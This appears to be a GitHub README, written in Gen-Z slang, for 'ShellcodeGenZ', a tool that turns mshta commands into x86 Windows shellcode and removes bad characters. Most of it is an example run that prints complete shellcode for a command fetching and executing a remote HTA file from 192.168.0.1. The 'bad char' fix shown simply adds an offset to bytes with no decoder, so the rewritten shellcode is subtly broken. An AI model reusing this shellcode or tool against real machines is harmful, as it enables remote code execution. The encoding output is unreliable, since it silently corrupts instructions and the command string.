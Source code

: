 
# ShellcodeGenZ
![image](https://github.com/user-attachments/assets/8ba517e4-acfd-4162-9720-fe8ec78af641)
![image](https://github.com/user-attachments/assets/8984c1dc-53f4-4f5b-b887-653461ee312e)

Yo, welcome to ShellcodeGenZ, the dopest shellcode generator for commands, crafted by the legend Zeyad Azima (https://zeyadazima.com - contact@zeyadazima.com). This tool's straight-up slayin' the game by whippin' up clean shellcode, yeetin' bad chars like nobody's biz, and droppin' logs so you know what's poppin'. Built with Gen-Z energy, it's got manual and auto modes to fix bad chars, checks for 0x00 like a boss, and keeps the vibes no cap. This is your go-to for shellcode that slaps.

## What's the Vibe?

ShellcodeGenZ takes your commands (like mshta.exe http://192.168.0.1/azi.hta) and turns 'em into shellcode that's ready to flex. It hunts down bad chars (like 0x0a, 0x0b, or the default 0x00), lets you yeet 'em manually or auto with add/subtract offsets, and logs every move so you're never lost. If 0x00 sneaks into push instructions, it's a hard pass—script's outtie. With colored output and Gen-Z slang, it's like codin' with your besties.

## Features That Slap
- mshta Shellcode Gen: Turns mshta commands into lit shellcode.
- Bad Char Yeeter: Spots bad chars and lets you fix 'em manual (pick your hex) or auto (add/subtract offsets).
- Manual Offset Drip: Choose your own offset for auto mode, or let it test 0x01 to 0xff.
- 0x00 Check: Always yeets 0x00 and bails if it's in push instructions.
- Logs for Days: Detailed logs with Gen-Z flair so you know what's good.
- Colorful Vibes: Rockin' colorama for that terminal glow-up.

## Gettin' Set Up

To dodge the externally-managed-environment drama, we settin' up a virtual env. Here's the tea:

1. Make a Virtual Env:
   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

2. Snag the Dependencies:
   ```bash
   pip install keystone-engine colorama
   ```

3. Grab the Script:
   Clone this repo or yoink shellcode_genz.py from the files.

4. Yeet the Env (When Done):
   ```bash
   deactivate
   ```

## How to Slay with ShellcodeGenZ

1. Run the Script:
   Fire it up in your virtual env:
   ```bash
   python3 ShellcodeGenZ.py
   ```

2. Drop Your Inputs:
   - mshta command: Like mshta.exe http://192.168.0.1/azi.hta.
   - Bad chars: Comma-separated hex (e.g., 0a,0b). It always checks 0x00, no cap.

3. Yeet Bad Chars:
   - If bad chars pop up, choose to yeet 'em (Y/N).
   - Pick manual (drop new hex values) or automated (add/subtract offsets).
   - For auto, select manual offset (like 01) or automatic (tests all offsets).

4. Check the Output:
   - Shellcode drops as a byte string (e.g., b"\x...\").
   - Logs spill the tea on every step, from instructions to bad char fixes.

### Example Run

Input:
```
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - let's get this shellcode poppin'!
Drop your mshta command to make it lit: mshta.exe https://192.168.0.1/azi.h1
Spill the bad chars to yeet (comma vibes, like '0a,0b'): 01,20,80,81
```

Output (shortened for vibes):
```
2025-04-28 03:11:20,452 - INFO - mshta instructions are straight fire:
push 0x31682e69;
push 0x7a612f31;
push 0x2e302e38;
push 0x36312e32;
push 0x39312f2f;
push 0x3a737074;
push 0x74682065;
push 0x78652e61;
push 0x7468736d;
2025-04-28 03:11:20,454 - INFO - mshta shellcode’s droppin’ like a banger: shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x20\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:20,454 - INFO - Shellcode’s flexin’ at 217 bytes, no cap!
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x81 lurkin’ at index 2! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x81
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 25! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x01 lurkin’ at index 55! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 62! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 63! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 77! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 91! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 104! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 113! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 118! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x20 lurkin’ at index 187! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x20
Wanna yeet those bad chars? (Y/N): Y
You goin’ manual or auto for yeetin’ bad chars? (manual/automated): automated
Yo, what’s the move? Add or subtract for encodin’? (add/subtract): add
You droppin’ your own offset or we auto-pickin’? (manual/automatic): automatic
2025-04-28 03:11:51,821 - INFO - Kickin’ off bad char yeetin’ with add vibes and automatic offset slay
2025-04-28 03:11:51,821 - INFO - Bad chars we gotta yeet: 0x01, 0x20, 0x81
2025-04-28 03:11:51,821 - INFO - Chars we dodgin’: 0x01, 0x20, 0x80, 0x81, 0x00
2025-04-28 03:11:51,822 - INFO - Goin’ auto mode, testin’ offsets 0x01 to 0xff like a boss!
2025-04-28 03:11:51,822 - INFO - Dippin’ past offset 0x01 ‘cause it’s a bad char
2025-04-28 03:11:51,822 - INFO - Checkin’ offset 0x02... let’s see if it slaps
2025-04-28 03:11:51,822 - INFO -   Bad char 0x01 turnin’ into 0x03 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x20 turnin’ into 0x22 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x81 turnin’ into 0x83 (add 0x02)
2025-04-28 03:11:51,822 - INFO - YO, offset 0x02 is straight fire for add!
2025-04-28 03:11:51,822 - INFO - Replacements droppin’: 0x01 -> 0x03, 0x20 -> 0x22, 0x81 -> 0x83
2025-04-28 03:11:51,822 - INFO - Shellcode’s lookin’ fresh with new vibes: shellcode = b"\x89\xe5\x83\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x22\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x03\xdf\x8b\x4f\x18\x8b\x47\x22\x03\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x03\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x03\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x03\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x03\xda\x8b\x04\x8a\x03\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x22\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:51,823 - INFO - New shellcode length’s poppin’ off at 217 bytes!
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - we slayed it, fam!
```

## Got Tea?

Wanna add more drip, report a bug, or just vibe? Hit up the issues tab or slide into Zeyad’s DMs at contact@zeyadazima.com. Let’s keep ShellcodeGenZ the most lit shellcode tool in the game.
